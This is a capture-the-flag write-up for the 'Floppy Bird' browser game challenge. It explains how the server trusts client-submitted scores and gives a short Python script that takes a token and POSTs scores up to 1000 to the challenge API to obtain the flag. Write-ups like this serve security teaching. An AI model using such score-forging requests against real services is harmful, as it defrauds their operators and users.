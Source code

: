 # Floppy Bird – Writeup

## Challenge Description
```
I have recreated one of the most classic games in the browser, can you score 1000 points and get the flag?

Website: http://floppybird.challs.olicyber.it
```
In this challenge, the flag is awarded after reaching a certain score in the game. Instead of playing manually, we can exploit the server’s API to submit arbitrary scores until the flag is revealed.

## Challenge Overview

1. **Token Retrieval**

   * A unique token is obtained from `/get-token`.
   * This token is required for all score submissions.

2. **Score Submission**

   * Each score is submitted via POST to `/update-score` with:

     ```json
     {
       "token": "<your_token>",
       "score": <i>
     }
     ```

3. **Obtaining the flag**

   * When we reach 1000 points we win so on the 1000th request the server sends the flag.

## Exploit
```python
import requests, json

site = "http://floppybird.challs.olicyber.it/"
token = json.loads(requests.get(site + "get-token").text)["token"]
r = ""

for i in range(1001):
    r = requests.post(site + "update-score", json={"token": token, "score": i}).json()
    if "flag" in r:
        print(r["flag"])
        break
````

## Flag

Running the exploit successfully retrieves the flag from the server’s response:

```
ptm{n3v3r_7rus7_cl13n7_s1d3_d4ta}
```
